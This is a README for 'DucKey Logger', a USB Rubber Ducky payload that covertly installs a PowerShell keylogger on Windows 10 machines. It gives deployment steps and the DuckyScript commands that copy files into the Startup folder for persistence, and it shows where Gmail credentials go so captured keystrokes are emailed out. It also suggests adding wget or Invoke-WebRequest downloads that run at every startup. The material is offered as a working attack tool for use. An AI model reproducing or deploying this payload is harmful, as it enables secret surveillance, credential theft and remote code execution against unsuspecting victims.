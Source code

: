 # DucKey Logger
> Chris Taylor [Blue Cosmo] | 08/24/21
---

```
:::::::::  :::    :::  ::::::::  :::    ::: :::::::::: :::   :::
:+:    :+: :+:    :+: :+:    :+: :+:   :+:  :+:        :+:   :+:
+:+    +:+ +:+    +:+ +:+        +:+  +:+   +:+         +:+ +:+  
+#+    +:+ +#+    +:+ +#+        +#++:++    +#++:++#     +#++:   
+#+    +#+ +#+    +#+ +#+        +#+  +#+   +#+           +#+    
#+#    #+# #+#    #+# #+#    #+# #+#   #+#  #+#           #+#    
#########   ########   ########  ###    ### ##########    ###     
```

## Overview:
```
DucKey Logger is a USB RubberDucky payload that uses PowerShell to log keystrokes
```
- moves *c.cmd* file to windows startup directory
- *c.cmd* will secretly run *p.ps1*
- *p.ps1* will log keystrokes and email the logs every startup [via SMTP]

## Resources:
- [YouTube Video](https://youtu.be/K0g0RHSUofw)
- [YouTube Channel](https://youtube.com/cosmodiumcs)
- [Website](https://cosmodiumcs.com)

## Requirements:
- Twin-Duck firmware
- Gmail account
    - i suggest making a separate Gmail account for this payload
    - your Gmail must have [LSA Access](https://myaccount.google.com/lesssecureapps?pli=1&rapt=AEjHL4Px2VEFPoFPEuLutMD6UhNVRyY9P3s7l-pCGA53NBqilKVrtltrfS1823x5i6k6_pSEVp6jkEW0zKQT2CHN0WXh4fvGiw) enabled
- Windows 10 Target

## Instructions:
Set-Up/Installation
1. change Gmail credentials in *p.ps1*
```powershell
# gmail credentials
$email = "example@gmail.com"
$password = "password"
```
2. change name of the SD Card in *payload.txt*
```
REM change 'L' to the name of your ducky
STRING $u=gwmi Win32_Volume|?{$_.Label -eq'L'}|select name;cd $u.name;cp .\p.ps1 $env:temp;cp .\c.cmd "C:/Users/$env:UserName/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup";cd $env:temp;echo "">"$env:UserName.log";
```
3. choose an option in *payload.txt*
```
REM comment out the option you decide NOT to use

REM STAGE 4 [OPTION1]
REM run keylogger
STRING cd "C:/Users/$env:UserName/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup";.\c.cmd;exit

REM STAGE 4 [OPTION2]
REM restart computer
STRING shutdown /r
```
4. flash Twin-Duck firmware on to your duck
    - [Tutorial](https://youtu.be/ao32BS8fwaM?t=700)
5. load, encode, and deploy!!

## Extraneous:
The *c.cmd* attack opportunity
```
the c.cmd file runs every startup.
this means an attacker could place a
'wget' or 'Invoke-WebRequest' and have a file
be downloaded from anywhere on the internet onto the computer.
the file would then save in the startup directory,
allowing it to run every startup
```
---
- hope you enjoy the payload!!
- please subscribe to my [YouTube channel](https://youtube.com/cosmodiumcs) :)
